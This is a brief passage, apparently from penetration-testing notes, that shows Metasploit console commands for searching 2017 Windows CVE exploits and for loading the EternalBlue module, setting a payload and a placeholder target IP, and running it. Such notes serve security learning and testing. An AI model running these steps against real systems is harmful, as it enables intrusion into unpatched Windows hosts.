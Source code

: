 #### CVE Exploits Example

```bash
search cve:2017 type:exploit platform:windows
```

![search cve:2017 type:exploit platform:window](.gitbook/assets/image-20230412175150747.png)

#### Payload Options Example

```bash
search eternalblue
use 0
# specify the identifier
set payload <PAYLOAD_NAME>
set RHOSTS <TARGET_IP>
run
# or
exploit
```
